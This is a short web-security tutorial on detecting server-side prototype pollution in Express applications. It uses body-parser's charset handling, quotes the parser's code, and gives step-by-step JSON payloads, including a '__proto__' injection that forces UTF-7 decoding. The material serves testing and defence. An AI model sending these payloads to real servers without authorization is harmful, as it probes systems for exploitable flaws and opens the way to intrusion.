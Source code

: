## Detecting server-side prototype pollution via charset override

Express servers often implement so-called "middleware" modules that enable preprocessing of requests before they're passed to the appropriate handler function. For example, the `body-parser` module is commonly used to parse the body of incoming requests in order to generate a `req.body` object. This contains another gadget that you can use to probe for server-side prototype pollution.

```js
var charset = getCharset(req) || 'utf-8'

function getCharset (req) {
    try {
        return (contentType.parse(req).parameters.charset || '').toLowerCase() // parameters.charset may be controllable via prototype pollution
    } catch (e) {
        return undefined
    }
}

read(req, res, next, parse, debug, {
    encoding: charset,
    inflate: inflate,
    limit: limit,
    verify: verify
})
```

1. Add an arbitrary UTF-7 encoded string to a property that's reflected in a response
```json
{ "sessionId":"0123456789", "username":"wiener", "role":"+AGYAbwBv-" }
```
2. Send the request. Servers won't use UTF-7 encoding by default, so this string should appear in the response in its encoded form.
3. Try to pollute the prototype with a `content-type` property that explicitly specifies the UTF-7 character set:
```json
{
    "sessionId":"0123456789",
    "username":"wiener",
    "role":"default",
    "__proto__":{
        "content-type": "application/json; charset=utf-7"
    }
}
```
4. Repeat the first request. If you successfully polluted the prototype, the UTF-7 string should now be decoded in the response:
```json
{ "sessionId":"0123456789", "username":"wiener", "role":"foo" }
```

# NodeJS prototype pollution examples
